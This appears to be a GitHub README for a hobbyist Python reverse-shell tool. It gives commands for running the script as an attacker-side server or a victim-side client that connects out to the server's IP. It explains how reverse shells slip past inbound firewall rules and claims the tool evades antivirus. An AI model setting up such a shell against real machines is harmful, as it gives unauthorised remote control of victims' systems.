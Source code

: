 

# Sample Demo:
![Alt Text](https://github.com/heecheon92/Reverse_shell/blob/master/rshell_demo.png)

# How to Use?

You can run this program either as a server (attacker) or client (victim)

To run as a server:
```
  python3 rshell.py -m server -p port_number
```
To run as a client:
```
  python3 rshell.py -m client -t server_ip_address -p server_port_number
```
# A Very Long Disclaimer: 

I am not responsible for any real / potential damage by the use of this project

I am not a professional penetration tester.

However, I do find network/socket programming very attractive and based on what I learned from

network class in college and socket programming I picked up from somewhere, I have made this little sneaky programs.

Just because I like to understand about penetration testing, it does not mean I would like to relentlessly abuse well known tools or frameworks (such as metasploit....veil....sqlmap.....hashcat.....etc). Instead, I wanted to try making my own script and see what I can do. I am not saying those penetration tools are bad. In fact, I get amazed how well they are automated to attack mutliple victim nodes. I just do not want to solely rely on them.

Server program opens up an accessible port.

Once the server program is running, client program can be executed to connect to the hosted port by the server.

Unlike normal shells or also known as "bind shell", in which server simply allow an user to connect and client program with a payload to attack the server node, the server program acts as a payload and allows the server to execute shell commands to a client.

In most network environment, it is a common practice that in-bound policy is set to be strict to prevent malicous actions to be done and typically, out-bound policy is set to be loose so that users within the network can freely traverse the endpoints outside of the firewall.

Due to this environment, exploitation by bind shell is not really easily acheiveable.

However, since the attcker is the server so that the out-bound policy can be set relatively loose or no out-bound policy at all, implementing reverse shell is very effective to control a remote node.

All communication between the server and the client is not secure and can be easily detected by network monitoring tools like Wireshark. I am planning to add a security layer.



Bind Shell:

Server (Victim) ---------|Firewall|<<---------Client (Attacker)

It is easy to fail to make connection if an out-bound policy of firewall is well set.

Reverse Shell:

Server (Attacker) -------NO-FIREWALL <<------------Client (Victim)

Attacker set no out-bound policy so that victims can freely connect to the trap server.

Again, even though this is a very simple program, it won't be detected by an anti-virus software as a threat.

So, DO NOT USE TO HARM OTHER ENDPOINTS.



